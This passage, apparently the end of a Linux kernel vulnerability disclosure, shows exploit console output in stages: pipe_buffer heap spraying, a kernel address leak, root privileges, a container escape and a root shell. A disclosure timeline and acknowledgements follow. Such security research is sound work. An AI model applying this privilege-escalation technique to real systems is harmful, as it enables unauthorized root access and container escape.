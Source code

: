 ```sh
[*] Freeing sk_buff data buffer...
[*] Spraying pipe_buffer objects...
[*] Leaking and freeing pipe_buffer object...
[+] anon_pipe_buf_ops: ffffffffa1e78380
[+] kbase_addr: ffffffffa0e00000

[+] STAGE 4: Kernel code execution
[*] Spraying fake pipe_buffer objects...
[*] Releasing pipe_buffer objects...
[*] Checking for root...
[+] Root privileges gained.

[+] STAGE 5: Post-exploitation
[*] Escaping container...
[*] Cleaning up...
[*] Popping root shell...
root@theflow:/# id
uid=0(root) gid=0(root) groups=0(root)
root@theflow:/#
```

## Timeline

2020-04-06 - Vulnerability reported to security@kernel.org.  
2020-04-13 - Patch merged upstream.  
2020-07-07 - Public disclosure.

## Thanks

Eduardo Vela  
Francis Perron  
Jann Horn
